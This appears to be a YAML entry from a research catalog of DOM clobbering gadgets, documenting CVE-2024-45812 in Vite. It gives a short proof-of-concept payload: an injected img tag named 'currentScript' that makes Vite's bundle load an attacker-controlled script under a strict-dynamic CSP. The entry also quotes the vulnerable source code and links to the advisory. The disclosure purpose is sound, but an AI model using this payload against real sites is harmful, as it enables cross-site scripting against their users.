 ```yaml
---
description: Next generation frontend tooling. It's fast!
github: vitejs/vite
gadgets:
  Latest:
    cve: CVE-2024-45812
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [Vite](https://vite.dev/) library was using the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" type="module" crossorigin src="/assets/libs/vite/index.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/vitejs/vite/blob/37881e71980ddbf6a93444c2d21b8ee6c076ad07/packages/vite/src/node/build.ts#L1132">https://github.com/vitejs/vite/blob/37881e71980ddbf6a93444c2d21b8ee6c076ad07/packages/vite/src/node/build.ts#L1132</a>

      ```javascript
      const getRelativeUrlFromDocument = (relativePath: string, umd = false) =>
        getResolveUrl(
          `'${escapeId(partialEncodeURIPath(relativePath))}', ${
            umd ? `typeof document === 'undefined' ? location.href : ` : ''
          }document.currentScript && document.currentScript.src || document.baseURI`,
        )
      
      // [...]

      const relativeUrlMechanisms: Record<
        InternalModuleFormat,
        (relativePath: string) => string
      > = {
        amd: (relativePath) => {
          if (relativePath[0] !== '.') relativePath = './' + relativePath
          return getResolveUrl(
            `require.toUrl('${escapeId(relativePath)}'), document.baseURI`,
          )
        },
        cjs: (relativePath) =>
          `(typeof document === 'undefined' ? ${getFileUrlFromRelativePath(
            relativePath,
          )} : ${getRelativeUrlFromDocument(relativePath)})`,
        es: (relativePath) =>
          getResolveUrl(
            `'${escapeId(partialEncodeURIPath(relativePath))}', import.meta.url`,
          ),
        iife: (relativePath) => getRelativeUrlFromDocument(relativePath),
        // NOTE: make sure rollup generate `module` params
        system: (relativePath) =>
          getResolveUrl(
            `'${escapeId(partialEncodeURIPath(relativePath))}', module.meta.url`,
          ),
        umd: (relativePath) =>
          `(typeof document === 'undefined' && typeof location === 'undefined' ? ${getFileUrlFromRelativePath(
            relativePath,
          )} : ${getRelativeUrlFromDocument(relativePath, true)})`,
      }
      ```
    links:
      - https://github.com/vitejs/vite/security/advisories/GHSA-64vr-g452-qvp3
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/vite.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

